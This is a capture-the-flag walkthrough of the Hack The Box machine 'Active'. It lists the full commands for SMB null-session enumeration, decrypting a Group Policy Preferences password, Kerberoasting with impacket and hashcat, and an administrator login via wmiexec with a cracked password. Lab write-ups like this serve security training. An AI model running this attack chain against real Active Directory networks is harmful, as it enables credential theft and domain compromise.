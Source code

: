 ## Active

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.100 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/545f6c7b-617d-4c8b-b144-0926136778e3)

<br>

Since port 139 and 445 are open, we can enumerate SMB with some tools.

```
enum4linux 10.10.10.100

smbmap -H 10.10.10.100

smbclient -L //10.10.10.100
```

![enum4linux](https://github.com/b1d0ws/OSCP/assets/58514930/3203c23d-8be4-412b-bfd7-bc7de2f4d3a3)

<br>

We can connect to Replication with Null Session and download all files inside it.

```
smbclient -U '%' -N \\\\active.htb\\Replication

RECURSE on
PROMPT off
mget *
```

![smbclient](https://github.com/b1d0ws/OSCP/assets/58514930/657f8386-2339-4974-ada7-456d47ff0cf1)

![gettingFiles](https://github.com/b1d0ws/OSCP/assets/58514930/0e7a281a-6351-482e-bbbe-19de6a8f3fca)

<br>

One of the files is Groups.xml. This file contains credentials that we can decrypt.

```
python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![groupsXML](https://github.com/b1d0ws/OSCP/assets/58514930/b0967634-8aa3-4d4b-99ee-e77ee37721f0)

![gppDecrypt](https://github.com/b1d0ws/OSCP/assets/58514930/58cd1d7d-ffa7-4a2b-bda2-73068744fd88)

<br>

We can connect to Users folder on SMB and get the user flag.

```
smbclient -U 'SVC_TGS' \\\\active.htb\\Users
```

### Root Flag

With the initial credentials, we can perform Kerberoasting attack.  

Use impacket-GetADUsers to enumerate users and impacket-GetUserSPNs to extract a TGS and crack it with hashcat.

```
impacket-GetADUsers -all active.htb/svc_tgs -dc-ip 10.10.10.100

impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request

hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

![getADUsers](https://github.com/b1d0ws/OSCP/assets/58514930/3d197473-ea7b-42c2-99ca-98d02156f7cf)

![getUserSPNs](https://github.com/b1d0ws/OSCP/assets/58514930/a1e74507-8377-409f-8ce2-406aab76a80f)

![hashcat](https://github.com/b1d0ws/OSCP/assets/58514930/2c067b13-04d5-405e-a654-83b5fe3796cd)

<br>

Now just login as Administrator with wmiexec. Psexec could also be used.

```
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```

![administratorLogin](https://github.com/b1d0ws/OSCP/assets/58514930/6a350bd2-7ab1-41a3-ad65-3741aec3283f)
